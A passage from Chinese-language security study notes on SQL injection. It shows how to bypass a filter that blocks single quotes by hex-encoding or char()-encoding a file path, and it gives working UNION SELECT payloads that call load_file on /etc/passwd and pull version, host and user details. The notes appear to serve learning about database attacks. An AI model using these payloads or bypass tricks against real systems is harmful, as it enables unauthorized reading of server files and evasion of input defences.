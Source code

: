 ![image](004_第四周—数据库系统功能相关学习/Image_040-1567178982005.jpg)



# 四、场景举例

## 1 不能出现某些特殊字符

1.**不能出现某些特殊字符**

> eg：在使用`load_file`函数的时候，要是url里屏蔽了`'`

可以使用hex转换一下，就可以绕过：

![hex](004_第四周—数据库系统功能相关学习/1127869-20190823213438646-267160119-1567178504433.png)

也可以借助`ascii`和`char`函数：

![char](004_第四周—数据库系统功能相关学习/1127869-20190823214625282-904626059-1567178504460.png)

SQL附录：

```
select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file('/etc/passwd'),7,8,9;

select hex('/etc/passwd'); -- 2F6574632F706173737764

-- 需要自己添加0x
select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file(0x2F6574632F706173737764),7,8,9;

-- 字符转换为ASCII码
select ascii('/'),ascii('e'),ascii('t'),ascii('c'),ascii('/'),ascii('p'),ascii('a'),ascii('s'),ascii('s'),ascii('w'),ascii('d');

-- ASCII码转为字符串
select char(47,101,116,99,47,112,97,115,115,119,100);

select * from users where id=1 union select @@version,@@version_compile_os,@@hostname,user(),database(),load_file(char(47,101,116,99,47,112,97,115,115,119,100)),7,8,9;
```